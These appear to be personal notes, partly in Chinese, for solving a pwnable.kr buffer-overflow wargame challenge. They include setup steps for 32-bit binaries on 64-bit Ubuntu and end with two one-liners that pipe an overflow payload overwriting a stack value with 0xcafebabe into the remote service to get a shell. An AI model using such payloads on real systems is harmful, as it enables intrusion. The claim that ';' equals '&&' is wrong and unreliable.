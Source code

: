 #### 1.Ubuntu 64 run 32bit :1.Ubuntu 64 run 32bit :
To run a 32-bit executable file on a 64-bit multi-architecture Ubuntu system, you have to add the i386 architecture and install the three library packages libc6:i386, libncurses5:i386, and libstdc++6:i386:

sudo dpkg --add-architecture i386
Or if you are using Ubuntu 12.04 LTS (Precise Pangolin) or below, use this:

echo "foreign-architecture i386" > /etc/dpkg/dpkg.cfg.d/multiarch
Then:

sudo apt-get update
sudo apt-get install libc6:i386 libncurses5:i386 libstdc++6:i386
If fails, do also

sudo apt-get install multiarch-support
After these steps, you should be able to run the 32-bit application:

./example32bitprogram

#### 2. linux cmd
cat - :作为标准输入
| ： 前一个命令的参数作为当前命令的参数
;  ==  &&
#### 3 注意64位和32位堆栈问题
#### 4.peda: pattern
#### 5.key: 
```
(python -c 'print "AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1\xbe\xba\xfe\xca"' ;cat -) | nc pwnable.kr 9000
(python -c 'print "AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1\xbe\xba\xfe\xca"' &&cat -) | nc pwnable.kr 9000
```